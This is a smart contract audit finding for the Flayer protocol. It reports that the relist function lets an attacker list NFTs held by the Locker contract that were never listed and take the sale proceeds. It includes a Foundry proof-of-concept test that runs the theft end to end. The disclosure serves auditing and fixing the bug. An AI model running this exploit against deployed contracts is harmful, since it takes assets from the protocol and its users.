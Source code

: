 Glorious White Cyborg

High

# attacker will relist stray ERC721 collection tokens of locker to earn profit

### Summary

The stray ERC721 tokens in locker.sol can be listed using the `relist` method despite there being no active listing for the tokenId. 
By Stray it means an ERC721 token which is owned by locker.sol but not in any listing.

This allows the user to list the tokens despite not owning it and getting profit when the listing is filled by another user.

### Root Cause

The root cause is that the `relist` method allows an user to create lists of tokens that weren't in a listing. 

https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625

### Internal pre-conditions

_No response_

### External pre-conditions

1. Alice sends ERC721 tokens to locker.sol through `transferFrom`
2. Or Alice sends ERC721 tokens to locker.sol through `Locker.deposit`

### Attack Path

1. _Locker.sol_ owns NFT tokenid1, tokenid2 from _Locker.sol_ deposit function uses or direct NFT transfers
2. _Attacker_ relists tokenid1 and tokenid2 and it succeeds
3. _User_ calls `fillListings` for the tokens listed by _attacker_
4. _Attacker_ profits off of a token owned by _Locker.sol_

### Impact

Protocol loses NFT assets that weren't listed explicitly.

### PoC

To run, paste function in Listings.t.sol and 
`forge test -vvv test_relistUnlistedTokenOwnedByLocker_POCPOC`

```solidity
    function _relist(uint256 arrayToPassLength, IListings.CreateListing memory listing) internal
    {   
        for(uint256 i =0; i < arrayToPassLength ; ++i)
        {
        listing.tokenIds[0] = i;
        listings.relist(listing, false);
        }
    }

function test_relistUnlistedTokenOwnedByLocker_POCPOC(
        ) public {

        uint256 noOfTokens = 4;
         uint16 floorMultiple = 400;
          uint32 duration = 5 days;
           uint40 created = uint40(3500);

        console2.log(block.timestamp);

        vm.assertTrue(created < block.timestamp);

        //noOfToken assume
        // _assumeValidTokenId(noOfTokens);

        //created assume lesser than b.tst for fillListing.
        // _assumeCreated(created);

        //floorMultiple assume
        // _assumeFloorMultiple(floorMultiple);

        //duration assume
        // _assumeDuration(duration);

        address payable alice = payable(address(0xa11ce));

        ICollectionToken token = locker.collectionToken(address(erc721a));

        deal(address(locker.collectionToken(address(erc721a))), alice, 10 * 1 ether);

        uint256 startBalance = token.balanceOf(alice);      

        uint256[] memory arrayToPass = new uint256[](noOfTokens);

                // Build our listings fill request
        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](noOfTokens);
        // tokenIdsOut[0][0] = _tokenId;

        for(uint256 i = 0 ; i < noOfTokens ; i++){
                uint256 _tokenId = i;
                erc721a.mint(alice, _tokenId);
                vm.prank(alice);
                erc721a.approve(address(listings), _tokenId);
                arrayToPass[i] = i;
                tokenIdsOut[0][i] = i;

                vm.prank(alice);
                erc721a.transferFrom(alice, address(locker), _tokenId);
        }       

        vm.assertTrue(erc721a.ownerOf(2) == address(locker)) ;

        address payable bob = payable(address(0xb0b));

        deal(address(locker.collectionToken(address(erc721a))), bob, 1 ether);

        console2.log("bob's balance before relisting is \t\t\t", token.balanceOf(bob));
        vm.startPrank(bob);
        // uint16 _floorMultiple = floorMultiple;
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);

        uint256[] memory arrayToPass2 = new uint256[](noOfTokens);

    _relist( arrayToPass.length,           IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: arrayToPass2,
                listing: IListings.Listing({
                    owner: bob,
                    created: created,
                    duration: duration,
                    floorMultiple: floorMultiple
                })
            }));


        vm.stopPrank();
        console2.log("bob's balance after relisting is \t\t\t", token.balanceOf(bob));

        //charlie is going to buy bob's listing
        address payable charlie = payable(address(0xc6a511e));
        deal(address(locker.collectionToken(address(erc721a))), charlie, 30 ether);

        vm.startPrank(charlie);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);

        listings.fillListings(
            IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
            })
        );

        vm.stopPrank();

        vm.startPrank(bob);
        listings.withdraw(address(token), listings.balances(bob, address(token)));
        console2.log("bob's balance after charlie buys listing is \t\t", token.balanceOf(bob));
        vm.stopPrank();


    }
```

### Mitigation

Check if the listing exists before re-listing is attempted.